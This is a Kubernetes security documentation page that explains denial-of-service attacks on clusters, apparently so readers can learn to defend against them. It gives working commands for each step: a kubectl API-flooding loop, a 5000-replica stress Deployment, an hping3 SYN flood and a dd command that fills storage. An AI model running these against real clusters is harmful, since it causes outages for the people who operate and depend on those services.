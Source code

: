```yaml
---
sidebar_position: 8
title: "Denial of Service (DoS) Attacks"
description: "How attackers exploit Kubernetes resources to exhaust system capacity, disrupt workloads, and cause service outages."
---
```


# Denial of Service (DoS) Attacks

A **Denial of Service (DoS) attack** targets a Kubernetes cluster by **exhausting system resources, overloading the API server, or overwhelming network capacity**. These attacks can cause **service downtime, degraded performance, and complete cluster unavailability**.

---

## Exploitation Steps: Overloading Cluster Resources

An attacker generates **excessive traffic, high CPU usage, or memory exhaustion** to disrupt Kubernetes workloads.

### Step 1: Flood the Kubernetes API Server

An attacker repeatedly sends API requests to **overload the control plane**:

```bash
while true; do kubectl get pods --all-namespaces; done
```

If **unauthenticated API access** is allowed, this can cause **latency spikes and request failures**.

### Step 2: Deploy Resource-Exhausting Pods

If **resource limits** are not enforced, the attacker deploys multiple high-consumption pods:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: overload-pods
spec:
  replicas: 5000
  template:
    spec:
      containers:
        - name: stress-container
          image: polinux/stress
          command: ["stress"]
          args:
            [
              "--cpu",
              "4",
              "--io",
              "4",
              "--vm",
              "4",
              "--vm-bytes",
              "128M",
              "--timeout",
              "300s",
            ]
```

```bash
kubectl apply -f overload-pods.yaml
```

Without **Pod Resource Limits**, the cluster experiences **CPU and memory starvation**.

### Step 3: Exploit Insecure Network Policies

If **network policies** are missing, the attacker floods a Kubernetes Service with **large requests**:

```bash
hping3 -S -p 443 <service-ip> --flood
```

This **overwhelms** the target service, causing delays and timeouts.

### Step 4: Abuse Persistent Storage

If **storage quotas** are missing, the attacker fills up available storage:

```bash
dd if=/dev/zero of=/mnt/persistent-volume/attack bs=1M count=100000
```

Once storage reaches **100% capacity**, workloads that rely on persistence **fail or crash**.

### Result

The attacker successfully **disrupts Kubernetes services**, leading to **downtime, increased latency, and operational failures**.

---

## Mitigation Steps

To protect against **Denial of Service (DoS) attacks**, follow the security best practices outlined in:

➡ **[Mitigating DoS Attacks in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/network_security/ddos_mitigation)**

This guide covers techniques such as **rate limiting, API request quotas, network policy enforcement, resource limits, and autoscaling defenses** to prevent Kubernetes disruptions.
